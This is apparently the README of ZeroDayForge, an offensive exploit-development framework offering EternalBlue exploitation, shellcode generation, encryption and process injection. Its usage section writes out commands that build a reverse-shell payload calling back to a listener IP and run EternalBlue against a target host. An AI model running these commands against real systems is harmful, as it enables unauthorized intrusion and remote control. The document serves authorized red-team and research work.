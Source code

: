 # ⚔️ ZeroDayForge

![ZDF Banner](https://img.shields.io/badge/status-stable-brightgreen?style=flat-square)
![License](https://img.shields.io/badge/license-MIT-blue?style=flat-square)
![Platform](https://img.shields.io/badge/platform-Windows/Linux-ff69b4?style=flat-square)

> 💀 **ZeroDayForge** is a modular red team framework for exploit development, protocol fuzzing, memory corruption research, and shellcode generation — built for professionals, researchers, and chaos engineers.

---

## 📸 Screenshot

![ZeroDayForge Demo](assets/banner-preview.png)

---

## 🚀 Capabilities

- 🎯 **Protocol Fuzzing** (SMBv1, RDP, DNS)
- 💥 **EternalBlue Exploit Chain** for Windows targets
- 🧠 **Shellcode Generator** (x64 polymorphic, encrypted)
- 🧬 **Process Injection** (Direct Syscalls + Hollowing)
- 🛡️ **Shellcode Encryptors** (AES, ChaCha20, XOR fallback)
- 🧪 **Simulated Win32 Heap Manipulation**
- 🔍 **PoC Generator** with crash logging
- ✅ **Self-Test Suite** — verify tool integrity without a target

---

## 📦 Installation

```bash
git clone https://github.com/Aviral2642/ZeroDayForge.git
cd zerodayforge
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

---

## ⚙️ Usage

### 🔎 Run Self-Test (no target required)

```bash
python self_test.py
```

### 🔧 Generate Payload

```bash
python zerodayforge.py payload -t shellcode -o reverse.bin -l 10.10.0.1 -p 4444
```

### 💥 Exploit EternalBlue

```bash
python zerodayforge.py exploit -t 192.168.1.100:445 -e eternalblue
```

### 🔬 Fuzz Protocol

```bash
python zerodayforge.py fuzz -t 192.168.1.100:445 -p smb
```

---

## 🧠 Developer Mode

Enable debug logging:
```bash
python zerodayforge.py -d <subcommand>
```

---

## 📁 File Structure

```
.
├── core/               # Core framework (fuzzer, heap, syscall)
├── payloads/           # Shellcode, encryption, injection logic
├── protocols/          # Protocol-specific exploits (SMB, RDP, etc)
├── scripts/            # Shell script utilities
├── examples/           # Sample payload generators
├── zerodayforge.py     # Main CLI
├── self_test.py        # Local self-verification
├── requirements.txt
└── README.md
```

---

## 🔥 Credits & Tools Used

- [Impacket](https://github.com/fortra/impacket)
- [PyRDP](https://github.com/GoSecure/pyrdp)
- [Capstone & Keystone](http://www.keystone-engine.org/)
- Offensive Security inspiration

---

## ⚠️ Disclaimer

This tool is provided for **educational and authorized red teaming use only**.
**Do not use it on networks you don’t own or have permission to test.**
You've been warned. ⚔️

---

> ZeroDayForge — *Shaping Exploits. Forging Mayhem.*
